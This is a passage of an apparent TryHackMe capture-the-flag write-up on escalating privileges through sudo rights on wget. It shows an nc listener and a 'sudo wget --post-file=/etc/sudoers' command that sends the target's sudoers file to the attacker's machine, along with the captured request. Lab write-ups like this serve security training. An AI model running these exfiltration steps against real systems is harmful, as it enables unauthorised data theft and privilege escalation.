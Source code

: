 ![](2021-06-25-17-38-41.png)

So We have sudo permissions for wget, I wonder what we can do.

* UPLOAD to attacker machine
* Download to attacker machine
* Re/Write Files on PWN machine
* Read Files on PWN machine

So we can directly upload /root/root_flag.txt to Our machine but thats not enough in real life.
So we will rewrite the `/etc/sudoers` file. 

```nc -lvnp 80```

And then we will write this

```SH
jessie@CorpOne:~$ sudo wget --post-file=/etc/sudoers {YOUR THM provided IP}
```

![](2021-06-25-17-44-11.png)

You will get this type of output on your attacking machine

```SH
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.135.145.
Ncat: Connection from 10.10.135.145:57690.
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: {YOUR THM provided IP}
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 797
```